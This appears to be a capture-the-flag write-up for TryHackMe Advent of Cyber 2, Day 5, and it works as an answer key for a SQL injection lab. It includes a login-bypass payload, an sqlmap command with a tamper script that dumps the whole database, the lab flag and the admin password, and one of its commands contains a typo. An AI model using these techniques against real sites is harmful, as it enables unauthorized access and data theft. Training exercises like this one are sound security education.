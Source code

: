 # TRYHACKME: ADVENTOFCYBER2 [DAY 5] WEB EXPLOITATION - Someone stole Santa's gift list!

```
After last year's attack, Santa and the security team have worked hard on reviving Santa's personal portal. Hence, 'Santa's forum 2' went live.

After the attack, logs have revealed that someone has found Santa's panel on the website and logged into his account! After doing so, they were able to dump the whole gift list database, getting all the 2020 gifts in their hands. An attacker has threatened to publish a wishlist.txt file, containing all information, but happily, for us, he was caught by the CBI (Christmas Bureau of Investigation) before that. On MACHINE_IP:8000 you'll find the copy of the website and your goal is to replicate the attacker's actions by dumping the gift list!
```

TOPICS: SQL Injection, sqlmap

### QUESTIONS

Without using directory brute forcing, what's Santa's secret login panel?

```
/santapanel
```

Visit Santa's secret login panel and bypass the login using SQLi

```
' or true; --
```

How many entries are there in the gift database?

```
--'

22
```

What did Paul ask for?

```
github_ownership
```

What is the flag?

```
sqlmap -r burpsuite.repeater.txt --tamper=space2comment --dbms=SQLite --dump-allo

+-----------------------------------------+
| flag                                    |
+-----------------------------------------+
| thmfox{All_I_Want_for_Christmas_Is_You} |
+-----------------------------------------+
```

What is admin's password?

```
sqlmap -r burpsuite.repeater.txt --tamper=space2comment --dbms=SQLite --dump-allo

+------------------+----------+
| password         | username |
+------------------+----------+
| EhCNSWzzFP6sc7gB | admin    |
+------------------+----------+
```
